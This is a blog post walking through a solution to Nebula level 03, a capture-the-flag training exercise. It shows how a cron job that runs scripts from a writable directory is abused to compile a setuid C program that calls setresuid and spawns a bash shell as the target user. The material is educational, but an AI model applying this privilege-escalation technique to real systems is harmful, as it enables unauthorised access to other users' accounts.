 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level 03"
date: 2014-01-09 17:03:25 +0800
comments: true
categories: Security, Exercises, Nebula
---
```


### About
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03 . Files for this level can be found in /home/flag03.

<!-- more -->

### Solution

No source code is available for this level, but there is a shell script in the home directory of user flag03

``` sh writable.sh
#!/bin/sh
for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script would be executed periodly by cron, after I have finished this level, I logged in with the admin account and get the content of the corresponding crontab file

``` sh /var/spool/cron/crontabs/flag03
*/3 * * * * /home/flag03/writable.sh
```

For the meaning of this crontab file, please refer to the [Cron Wiki](https://wiki.archlinux.org/index.php/cron) of Archlinux.

Back to the script located in */home/flag03*, this script does the following things

1. limits the use cpu time to be 5s
2. iterately executes all the executable files in directory */home/flag03/writable.d/*
3. delete these executables after executing

This crontab runs in user *flag03*, we could leverage it to do something interesting, like changing the home directory of user *flag03* to be public readable and writable, but what we need is beyond this. 

It is easy to find a way to get the privilege of user *flag03* after all we have read in the previous exercises. So I wrote the following code in C

``` c flag03.c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main() {
	setresuid(996, 996, 996);
	system("/bin/bash");
}
``` 

The uid 996 is got by reading */etc/passwd*

``` c
flag03:x:996:996::/home/flag03:/bin/sh
```

What I need now is to make user *flag03* compile this C code into an executable that could be run by *level04* and the set-user-ID bit is set. So I wrote the following script 

``` sh compile
gcc -o /home/flag03/flag03 /home/level03/flag03.c
chmod 777 /home/flag03/flag03
chmod +s /home/flag03/flag03
```

To make the file */home/level03/flag03.c* readable by user flag03, I changed the permission of my home directory

``` bash
$ chmod a+rx /home/level03
```

Now, place the compile script into */home/flag03/writable.d", and wait patiently for the execution of crontab. After this script is called, I got an executable in */home/flag03* to help me get the privilege of user *flag03* :)
